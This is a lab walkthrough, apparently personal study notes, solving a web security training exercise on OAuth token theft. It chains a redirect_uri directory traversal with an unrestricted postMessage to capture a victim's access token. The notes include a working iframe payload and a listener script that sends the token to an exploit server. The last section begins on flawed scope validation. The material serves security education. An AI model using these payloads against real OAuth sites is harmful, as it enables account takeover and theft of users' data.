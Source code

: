 # Solution
- Study the OAuth flow while proxying traffic through Burp. 
- Using the same method as in the previous lab, identify that the redirect_uri is vulnerable to directory traversal. 
- This enables you to redirect access tokens to arbitrary pages on the blog website.
- Using Burp, audit the other pages on the blog website. 
- Observe that the comment form is included as an iframe on each blog post. 
- Look closer at the /post/comment/comment-form page in Burp and notice that it uses the postMessage() method to send the window.location.href property to its parent window. 
- Crucially, it allows messages to be posted to any origin (*).
- From the proxy history, right-click on the GET /auth?client_id=[...] request and select "Copy URL". 
- Go to the exploit server and create an iframe in which the src attribute is the URL you just copied. 
- Use directory traversal to change the redirect_uri so that it points to the comment form. 
- The result should look something like this:
```
<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
```
- Below this, add a suitable script that will listen for web messages and output the contents somewhere. For example, you can use the following script to reveal the web message in the exploit server's access log:
```
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```
- To check the exploit is working, store it and then click "View exploit". 
- Make sure that the iframe loads then go to the exploit server's access log. 
- There should be a request for which the path is the full URL of the comment form, along with a fragment containing the access token.
- Go back to the exploit server and deliver this exploit to the victim. 
- Copy their access token from the log. 
- Make sure you don't accidentally include any of the surrounding URL-encoded characters.
- Send the GET /me request to Burp Repeater. 
- In Repeater, replace the token in the Authorization: Bearer header with the one you just copied and send the request. 
- Observe that you have successfully made an API call to fetch the victim's data, including their API key.
- Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

# Flawed scope validation
- In any OAuth flow, the user must approve the requested access based on the scope defined in the authorization request. 
- The resulting token allows the client application to access only the scope that was approved by the user. 
- But in some cases, it may be possible for an attacker to "upgrade" an access token (either stolen or obtained using a malicious client application) with extra permissions due to flawed validation by the OAuth service. 
- The process for doing this depends on the grant type.
